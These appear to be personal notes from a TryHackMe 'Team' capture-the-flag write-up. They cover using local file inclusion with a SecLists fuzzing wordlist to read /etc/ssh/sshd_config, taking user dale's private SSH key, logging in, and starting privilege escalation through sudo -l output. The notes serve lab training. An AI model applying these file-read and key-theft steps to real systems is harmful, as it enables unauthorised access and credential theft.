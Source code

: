 - LFI [[LFI - directory traversal - to RCE]] 

used writeup for this - we can get fuzz the filepath 
using
`SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt`

and get this `sshd_config` file contents `/etc/ssh/sshd_config`

- this file had the private rsa key of user dale

copied the contents and while logging in got an error of incorrect syntax, reached the file and it still had hashtags in it. i replace the hashtags but still got the same error

```
   │   ~/Desktop/THM/team ▓▒░ ssh dale@10.10.117.176 -i id_rsa                                         ░▒▓ ✔ │ 18s   │ 00:39:26   
Load key "id_rsa": invalid format
dale@10.10.117.176's password: 
```


`cat the-key | tr -d '#' > id_rsa` used this but still got an invalid format error

followed this, entered after the last line
`should speed this up), chmod it to 600, and use it to connect as dale (if ssh complains about the formatting of the key, make sure you've removed the first line, all of the comment symbols, and that the file ends with an empty line) :`


we have shell as dale

```
dale@TEAM:~$ id
```

### Priv Esc
- found this note 
```
dale@TEAM:/home/ftpuser/workshare$ cat New_site.txt 
Dale

	I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles
```

- we find this in `sudo -l`
```
dale@TEAM:/home/gyles$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```
